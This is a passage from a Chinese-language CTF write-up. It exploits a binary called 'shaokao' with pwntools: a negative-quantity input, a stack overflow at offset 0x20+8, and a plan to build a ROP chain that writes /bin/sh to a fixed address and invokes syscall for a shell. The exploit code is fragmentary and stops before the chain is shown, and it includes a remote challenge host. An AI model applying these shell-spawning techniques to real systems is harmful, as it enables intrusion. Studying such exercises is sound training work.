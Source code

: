 ```python

io.sendline('1')

io.sendline('-100000')

io.sendline('4')

io.sendline('5')

pause( )

offset = 0x20 + 8
paylaod = offset*b'a' + p

io.sendline(paylaod)

pause( );

io.interactive()
```
#### 使用ropper
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685372455750-4648c932-8c18-47ee-ba9d-20da3aec53d2.png#averageHue=%23060504&clientId=u6d9848d8-7586-4&from=paste&height=716&id=uf729e92f&originHeight=1182&originWidth=1356&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=346307&status=done&style=none&taskId=u08e7c6f5-374a-4602-bbdf-bc028442935&title=&width=821.8181343183729)<br />我用ropper生存的攻击，是失败的。
> 但是，ropper很适合用来构造rop链时候的辅助

#### 手动构造ROP链接
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685374101249-eb060b94-1ad5-4b47-81ac-c77895a8fb82.png#averageHue=%23060302&clientId=u321c515a-fa18-4&from=paste&height=151&id=u8789d147&originHeight=249&originWidth=1183&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=29839&status=done&style=none&taskId=u888a37a6-3e30-468a-a350-945cbe46604&title=&width=716.9696555299669)<br />注意到，写入的name地址是固定的，所以可以考虑往这里写/bin/sh<br />虽然本题无system，但是存在syscall，所以考虑syscall调用<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685374241277-16f7dcd2-f0d4-4daa-b1f7-70a32a375ddc.png#averageHue=%23150a04&clientId=u321c515a-fa18-4&from=paste&height=351&id=ufc92d9eb&originHeight=579&originWidth=1175&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=245785&status=done&style=none&taskId=u9af5d164-c876-447f-b8c4-fdc56626223&title=&width=712.1211709617169)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685374484043-b34e9543-9ace-437d-a341-c8167d2fee61.png#averageHue=%23140904&clientId=u321c515a-fa18-4&from=paste&height=234&id=u6e0841e2&originHeight=386&originWidth=1151&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=139340&status=done&style=none&taskId=ue73bf5d0-b589-4104-b612-d4ecfd27668&title=&width=697.575717256967)
```c
from pwn import *

elfname = './shaokao'

local = 1
if local:
    p = process(elfname)
else:
    p = remote('123.56.236.235', 30501)
elf = ELF(elfname)


context.log_level = 'debug'
context.arch = 'amd64'
context.binary = elfname


r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))


loginfo = lambda tag, addr: log.success(tag + " -> " + hex(addr))
def menu(ch):
    sla(">",str(ch))
```